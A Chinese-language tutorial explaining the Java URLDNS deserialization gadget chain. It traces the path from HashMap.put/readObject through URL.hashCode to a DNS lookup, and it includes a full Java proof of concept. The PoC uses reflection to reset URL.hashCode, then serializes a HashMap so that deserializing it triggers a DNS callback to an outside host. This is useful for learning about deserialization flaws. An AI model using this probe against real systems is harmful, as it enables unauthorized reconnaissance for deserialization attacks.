# URLDNS利用链

## 前言

简而言之，URLDNS也就是 当HashMap的key传入为URL类型对象的话，这个URL对象就会执行URL类的hashCode()方法  ，从而触发DNS请求，通常用来探测是否存在反序列化漏洞

两条链子简介

```java
URL类-->hashCode()方法-->1.hashcode=!-1-->不执行DNS解析
                     -->2.hashcode=-1-->handler.hashCode()(hander为URLStreamHandler类对
                          象)-->getHostAddress(u)-->getByName(host)-->做一次DNS解析
HashMap类-->put(k,v)-->putVal()-->hash(k)-->k.hashCode()
```

## HashMap链子

打开HashMap源码，有个put(k,v)方法，用来传参，它会返回一个hash(key)



查看hash()方法，它会返回一个hashCode()方法



## URL链子

查看URL类源码，它也有一个hashCode()方法，所以当上述HashMap传入的key为URL对象，就会执行URL的hashCode()方法



在该类中默认的hashCode值为-1，也就是默认执行handler.hashCode



hander为URLStreamHandler类对象,hander对象的方法hashCode()下， 有getHostAddress(u)方法



进一步查看getHostAddress(),看到有getByName(host)方法，因此就会在这块进行传值并DNS解析



## 代码

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class UrlDns {
    public static void main(String[] args) throws MalformedURLException, IllegalAccessException, NoSuchFieldException {
        /**
         *
         * URL类-->hashCode()方法-->1.hashcode=!-1-->不执行DNS解析
         *                      -->2.hashcode=-1-->handler.hashCode()(hander为URLStreamHandler类对
         *                          象)-->getHostAddress(u)-->getByName(host)-->做一次DNS解析
         * HashMap类-->put(k,v)-->putVal()-->hash(k)-->k.hashCode()
         * HashMap类
         * 当HashMap的key传入为Url类型的话，k.hashCode()就会执行URL类的hashCode方法
         * hashCode对象默认为-1，也就是说传入的url会默认执行一次解析，为了验证是否存在反序列化存在，需要在反序列化之前不执行dns解析，
         * 因此需要通过反射将hashCode的v改为其他，再执行序列化与反序列化操作
         */
        HashMap<URL, Integer> hashmap = new HashMap<>();

        URL url = new URL("http://11e0086a.dns.1433.eu.org");

        Class urlClass = url.getClass();
        Field field = urlClass.getDeclaredField("hashCode");//得到URL类的hashCode字段（默认为-1）
        //getDeclaredFields：获取当前类的所有字段，包括 protected/默认/private 修饰的字段；不包括父类public 修饰的字段。

        field.setAccessible(true);
        field.set(url,3);//设置url的hashCode值为3

        hashmap.put(url,1);//

        field.set(url,-1);
        // int hashCode = url.hashCode();


        try{
            //序列化
            FileOutputStream fileOutputStream = new FileOutputStream("a.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            //反序列化
            FileInputStream fileInputStream = new FileInputStream("a.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();

        } catch (FileNotFoundException e) {
            throw new RuntimeException(e);
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }


    }


}
```

## 调试分析过程

利用反射将url的hashCode设置不为-1，这样就不会在序列化之前解析



继续跟进，可以看到不进行解析



继续跟进



onlyIfAbsent-->说明只能进行一次解析，如果不修改hashCode的值 put在传值url的时候会默认进行dns解析

再通过反射设置`field.set(url,-1)`，hashCode的值为-1，下次在执行序列化与反序列化的操作时候就会判断是否解析



接下来进行序列化操作，可以看到在进行反序列化执行readObject()之前都没有解析



在readObject()执行后，DNS进行了解析，也就验证了存在反序列化漏洞

